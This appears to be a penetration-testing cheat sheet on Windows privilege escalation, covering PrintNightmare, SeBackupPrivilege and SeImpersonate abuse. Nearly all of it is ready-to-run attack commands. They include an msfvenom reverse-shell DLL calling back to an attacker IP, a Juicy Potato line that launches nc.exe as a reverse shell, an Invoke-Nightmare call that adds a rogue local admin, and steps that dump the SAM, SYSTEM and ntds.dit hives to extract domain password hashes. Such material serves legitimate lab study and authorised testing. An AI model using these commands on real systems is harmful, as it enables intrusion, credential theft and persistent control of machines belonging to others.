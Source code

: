 # Windows

## PrintNightmare (CVE-2021-1675)

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

```
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

#### Install their version of Impacket

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

#### Create a malicious .dll&#x20;

{% code overflow="wrap" %}
```python
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.5 LPORT=443 -f dll > shell.dll
```
{% endcode %}

#### Host a smbserver

```
impacket-smbserver share . -smb2support
```

{% code overflow="wrap" %}
```python
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'

./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```
{% endcode %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

```powershell
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default

Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 
```

## SeBackupPrivilege

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/" %}

#### Method 1

#### Standalone Windows Box

```
# on victim
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system

download sam
download system

# on kali
pypykatz registry --sam sam system
```

#### Domain Controller

This privilege only allows you to make backups not copies

```
# on kali
nano pwn.dsh
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
unix2dos pwn.dsh

# on victim
cd C:\Temp
upload pwn.dsh
diskshadow /s pwn.dsh
robocopy /b z:\windows\ntds . ntds.dit

reg save hklm\system c:\Temp\system
cd C:\Temp
download ntds.dit
download system

# on kali
impacket-secretsdump -ntds ntds.dit -system system local
```

#### Method 2

{% embed url="https://github.com/giuliano108/SeBackupPrivilege" %}

```
# on kali
nano pwn.dsh
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
unix2dos pwn.dsh

# on victim
cd C:\Temp
upload pwn.dsh
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
diskshadow /s pwn.dsh

Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
reg save hklm\system c:\Temp\system
cd C:\Temp
download ntds.dit
download system

# on kali
impacket-secretsdump -ntds ntds.dit -system system local
```

## SeImpersonateToken

SeImpersonateToken or SeAssignPrimaryToken - Enabled

### Exploiting with Juicy Potato

[http://ohpe.it/juicy-potato/\
http://ohpe.it/juicy-potato/CLSID\
https://github.com/ivanitlearning/Juicy-Potato-x86/releases](http://ohpe.it/juicy-potato/http://ohpe.it/juicy-potato/CLSIDhttps:/github.com/ivanitlearning/Juicy-Potato-x86/releases)

We need to specify CLSID value with systeminfo. It changes with Windows versions.

```
LocalService CLSID
BITS	{4991d34b-80a1-4291-83b6-3328366b9097}	NT AUTHORITY\SYSTEM

Checking...
JuicyPotatox86.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
[+] CreateProcessWithTokenW OK

JuicyPotatox86.exe -l 1337 -p C:\windows\temp\nc.exe -a "-e cmd 192.168.1.1 80" -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

### Exploiting with PrintSpoofer.exe

The target machine's arch is need to be x64.

[https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

```
PrintSpoofer.exe -i -c cmd
\\192.168.1.1\Share\PrintSpoofer.exe -i -c cmd
```
